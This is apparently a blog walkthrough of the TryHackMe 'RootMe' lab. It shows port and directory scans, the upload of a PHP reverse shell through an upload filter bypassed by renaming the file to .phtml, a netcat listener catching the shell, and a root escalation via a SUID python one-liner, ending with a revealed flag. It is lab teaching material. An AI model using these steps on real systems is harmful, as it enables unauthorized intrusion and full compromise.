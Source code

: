 ```yaml
---
layout: post
title: RootMe
subtitle: TryHackME - RootMe
description: Enumerate services, scan TCP/UDP ports, exploit vulnerabilities, and escalate privileges to capture flags.
image: https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png
optimized_image: https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png
tags:
  - TryHackME
  - Privilege Escalation
  - Find Flags
author: Mustafa Altayeb
date: 2025-10-30 00:00
paginate: true
---
```


# RootMe
[RootMe](https://tryhackme.com/room/rrootme)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png)

## Objectives
1. **Enumerate TCP ports** using Nmap
2. **Enumerate HTTP service** on port 80
3. **Enumerate web directories** using Gobuster
4. **Gain initial access** with a reverse shell via file upload exploit
5. **Privilege escalation** using SUID Python binary
6. **Capture the user and root flags**

## Reconnaissance

### Nmap Scan
Port scan:
```bash
nmap -sCV -p- -T4 10.10.233.74  
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c5:79:36:d3:0a:b3:7d:e0:0d:23:1c:37:7f:7e:d2:bb (RSA)
|   256 4a:e6:49:ff:cf:fa:7e:89:37:19:2d:ed:17:05:84:9c (ECDSA)
|_  256 c4:3f:fd:cf:f7:b4:8a:3e:9f:c8:d5:33:ef:21:c7:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Key Findings**:
- **Port 22**: SSH service, version OpenSSH 8.2p1
- **Port 80**: Apache httpd 2.4.41

## Web Enumeration

![](/assets/TryHackMeRoomsImage/RootMe/image.png)
Nothing interesting here .
Let's enum web directories

Gobuster may find special directories.

## Gobuster

>|**gobuster dir --url http://10.10.233.74 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**Result**
```js
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.233.74/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.233.74/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.233.74/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.233.74/panel/]
```

**Findings**:
- After visiting pages in the Gobuster results, I found:
  1. `/uploads`: no thing here .
     
  2. `/panel`: file upload page .

![](/assets/TryHackMeRoomsImage/RootMe/image2.png)

 I will use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

  - i tried to upload `php` shell but extension permitted i make it `phtml` and it's work 
  ![](/assets/TryHackMeRoomsImage/RootMe/image3.png)

We can access `uploads` with the link `http://10.10.233.74/uploads/shell.phtml`

## Initial Access via Reverse Shell

create listener with Netcat:

```bash
nc -nlvp 9090
```
access reverse shell with `http://10.10.233.74/uploads/shell.phtml`

```bash
nc -nlvp 9090                                                     
listening on [any] 9090 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.233.74] 54604
................
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation

### System Exploration
Find SUID binaries : 
>**find / -perm -u=s -type f 2>/dev/null**

```js
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
.
.
.

/usr/bin/python2.7
..
.
.
```

Find SUID python searching in GTFObins i find : 
 ![](/assets/TryHackMeRoomsImage/RootMe/image4.png)

in first command it's install python we have it already 
let's run the second command 

>**python -c 'import os; os.execl("/bin/sh", "sh", "-p")'**

```js
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```
flags if you care about it :

The user flag is in /var/www `THM{y0u_g0t_a_sh3ll}`
The root flag is in /root `THM{pr1v1l3g3_3s.......}`

Finished. Happy Hacking!



<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)

---